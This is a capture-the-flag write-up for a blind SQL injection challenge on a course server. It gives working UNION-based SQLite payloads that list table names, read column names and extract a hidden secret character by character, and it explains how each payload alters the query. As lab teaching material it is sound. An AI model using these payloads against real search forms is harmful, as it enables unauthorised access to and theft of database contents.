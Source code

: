 # Challenge `Sometimes we are just temporarily blind` writeup

- Vulnerability: SQL Injection
- Where: `http://mustard.stt.rnl.tecnico.ulisboa.pt:22262` search bar
- Impact: Allows an attacker to perform queries and access information in the database
- NOTE: Even though the website does not show the blogposts anymore, we can still take advantage of the fact that it shows how many results were found for the query

## Steps to reproduce

1. Find the names of the tables in the database by searching for `' UNION SELECT null, substr(name, 0, len(<guess>) + 1) as n, null FROM sqlite_master WHERE type = 'table' and n = '<guess>';--`, trying to guess it character by character: if it found more than 4 articles (it will always find at least 4 articles corresponding to the blogposts in the 'blog_post' table) it means that you correctly guessed the current character, so you add the `<guess>` to the queue to try to find the next character. Repeat this process until the queue is empty and you find all the names of the tables in the database
2. Using this method you find 3 tables named: 'user', 'blog_post' and 'super_s_sof_secrets'
3. Repeat the same method described in step 1, but this time search for `' UNION SELECT null, substr(name, 0, len(<guess>) + 1) as n, null FROM pragma_table_info('super_s_sof_secrets') WHERE n = '<guess>';--` to find the names of the columns in the 'super_s_sof_secrets' table
4. Using this method you find 2 columns named: 'id' and 'secret'
5. Repeat the same method described in step 1, but this time search for `' UNION SELECT null, substr(secret, 0, len(<guess>) + 1) as s, null FROM super_s_sof_secrets WHERE s = '<guess>';--` to find the flag in the column 'secret' of the table 'super_s_sof_secrets'

__Note: If you try to search for  `'a`, you will be redirected to an error page where you can see the structure of the query: `SELECT id, title, content FROM blog_post WHERE title LIKE '%<your_search>%' OR content LIKE '%<your_search>%'`. Since the `--` symbol represents the start of a comment in SQLite, the rest of the query will be ignored, so if you search for `' UNION SELECT null, substr(name, 0, len(<guess>) + 1) as n, null FROM sqlite_master WHERE type = 'table' and n = '<guess>';--`, the performed query will be `SELECT id, title, content FROM blog_post WHERE title LIKE '%' UNION SELECT null, substr(name, 0, len(<guess>) + 1) as n, null FROM sqlite_master WHERE type = 'table' and n = '<guess>';--`, returning all the blogposts in the 'blog_post' table and the names of the tables in the database that start with `<guess>`; if you search for `' UNION SELECT null, substr(name, 0, len(<guess>) + 1) as n, null FROM pragma_table_info('super_s_sof_secrets') WHERE n = '<guess>';--`, the performed query will be `SELECT id, title, content FROM blog_post WHERE title LIKE '%' UNION SELECT null, substr(name, 0, len(<guess>) + 1) as n, null FROM pragma_table_info('super_s_sof_secrets') WHERE n = '<guess>';--`, returning all the blogposts in the 'blog_post' table and the names of the columns in the 'super_s_sof_secrets' table that start with `<guess>`; and if you search for `' UNION SELECT null, substr(secret, 0, len(<guess>) + 1) as s, null FROM super_s_sof_secrets WHERE s = '<guess>';--`, the performed query will be `SELECT id, title, content FROM blog_post WHERE title LIKE '%' UNION SELECT null, substr(secret, 0, len(<guess>) + 1) as s, null FROM super_s_sof_secrets WHERE s = '<guess>';--`, returning all the blogposts in the 'blog_post' table and the entries of the column 'secret' in the 'super_s_sof_secrets' table that start with `<guess>`__

[(POC)](pocs/sometimes_we_are_just_temporarily_blind_poc.py)
